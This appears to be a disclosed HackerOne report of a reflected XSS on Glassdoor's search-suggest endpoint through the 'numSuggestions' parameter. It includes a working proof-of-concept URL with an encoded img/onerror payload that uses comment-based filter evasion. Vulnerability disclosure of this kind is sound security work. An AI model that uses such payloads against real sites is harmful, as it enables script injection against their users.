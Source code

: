 # Reflected XSS at https://www.glassdoor.com/ via the 'numSuggestions' parameter

## Report Details
- **Report ID**: 1042486
- **URL**: https://hackerone.com/reports/1042486
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-11-24T14:25:35.399Z
- **Disclosed**: 2020-12-14T15:27:55.885Z

## Reporter
- **Username**: l0cpd
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: glassdoor

## Vulnerability Information
Hi there,
I have found the xss vulnerability at: https://www.glassdoor.com/ via parameter: `numSuggestions`

**Summary:** 
Affected Parameter: `numSuggestions`

**Browsers tested:** Firefox, Chrome, Edge (latest version)

## Steps To Reproduce:
Go to: `https://www.glassdoor.com/searchsuggest/typeahead?numSuggestions=8rk3s6%22%3Cimg/**/src%3D%22x%22/**/onx%3D%22%22/**/onerror%3D%22alert%60l0cpd%60%22%3Ef9y60`
{F1092213}

## Supporting Material/References (screenshots, logs, videos):
{F1092214} 


Regards,
@l0cpd

## Impact

The attacker can execute JS code.

## Attachments
- Trigger.PNG
- XSS_via_numSuggestions.mp4
